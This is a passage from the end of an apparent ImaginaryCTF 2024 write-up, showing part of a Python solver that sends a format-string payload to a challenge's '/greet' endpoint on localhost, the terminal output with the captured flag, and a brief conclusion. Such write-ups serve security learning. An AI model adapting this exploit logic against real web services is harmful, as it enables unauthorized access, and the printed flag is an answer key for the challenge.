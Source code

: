 ```python
        url = f'{self.baseUrl}/greet'
        parameters = {
            'greeting': self.PRINT_FLAG_FUNCTION_NAME,
            'format': self.FORMAT_PAYLOAD
        }

        responseText = self.session.get(url, params=parameters).text
        match = re.search(self.FLAG_REGEX, responseText)
        if match is None:
            print('[-] Unable to read the flag')
            exit(0)

        flag = match.group(0)
        print(f'[+] We got the flag! Flag: {flag}')

    def solve(self):
        self.login()
        self.getFlag()

if __name__ == '__main__':
    baseUrl = 'http://localhost'
    solver = Solver(baseUrl)

    solver.solve()
```

```shell
┌[siunam♥Mercury]-(~/ctf/ImaginaryCTF-2024/Web/Pwning-en-Logique)-[2024.07.23|15:19:28(HKT)]
└> python3 solve.py
[+] We got the flag! Flag: ictf{f0rm4t_5tr1ng_vuln3r4b1l1ty_1n_Prolog_4nd_1t5_n0t_3v3n_4_pwn_ch4ll3ng3}
```

- **Flag: `ictf{f0rm4t_5tr1ng_vuln3r4b1l1ty_1n_Prolog_4nd_1t5_n0t_3v3n_4_pwn_ch4ll3ng3}`**

## Conclusion

What we've learned:

1. Format string vulnerability in Prolog